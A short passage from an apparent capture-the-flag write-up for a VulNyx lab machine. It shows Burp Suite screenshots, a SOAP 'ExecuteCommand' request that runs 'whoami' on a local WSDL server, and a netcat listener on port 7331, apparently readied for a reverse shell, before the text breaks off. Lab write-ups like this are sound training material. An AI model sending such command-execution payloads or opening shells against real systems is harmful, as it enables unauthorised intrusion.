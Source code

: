 ![Burp Suite - WSDL Server (`http://localhost:1337/`)](./assets/screenshots/vulnyx_bola_burpsuite_wsdl_server.png)

```xml
SOAPAction: ExecuteCommand

<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns="http://localhost/wsdl">
   <soapenv:Header/>
   <soapenv:Body>
      <LoginRequest>
         <cmd>whoami</cmd>
      </LoginRequest>
   </soapenv:Body>
</soapenv:Envelope>
```

![Burp Suite - SOAP Action ExecuteCommand 1](./assets/screenshots/vulnyx_bola_burpsuite_soap_executecommand_1.png)

```
┌──(nabla㉿kali)-[~]
└─$ nc -lvnp 7331
listening on [any] 7331 ...

[CONTINUE]
```
